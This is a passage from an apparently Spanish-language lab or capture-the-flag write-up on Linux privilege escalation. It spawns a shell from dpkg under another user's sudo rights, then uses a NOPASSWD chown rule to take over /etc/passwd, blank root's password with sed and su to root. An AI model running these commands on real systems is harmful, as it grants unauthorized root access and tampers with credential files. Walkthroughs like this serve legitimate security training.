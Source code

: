 Comprobamos que podemos ejecutar el binario `dpkg` con privilegios del usuario `gladys`.

```bash
sudo -u gladys dpkg -l
``` 

De forma similar, lo aprovechamos ejecutando `!/bin/bash` desde la interfaz de `dpkg`, consiguiendo pivotar de nuevo con éxito.

Una vez como usuario gladys volvemos a comprobar permisos `sudo` y `SUID`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for gladys on 5f4ca3874341:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 5f4ca3874341:
    (root) NOPASSWD: /usr/bin/chown
```

Por último, observamos que podemos ejecutar el binario `chown` con privilegios de `root`.

Para escalar privilegios, primero modificamos el propietario del archivo `/etc/passwd`.

```bash
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```

A continuación, utilizamos `sed` para eliminar la `x` que aparece en la línea correspondiente a `root`, lo que elimina su contraseña.

Guardamos este archivo temporalmente en `/tmp`.

```bash
sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp
```

Después, sobrescribimos el original en `/etc/passwd` con nuestra versión modificada:

```bash
cp /tmp/passwd.tmp /etc/passwd
```

Finalmente, verificamos que el usuario `root` ya no tiene contraseña y conseguimos escalar con éxito.

```bash
su root
```

Info:
```
root@5f4ca3874341:/home/gladys# whoami
root
root@5f4ca3874341:/home/gladys#
```

Ya somos root!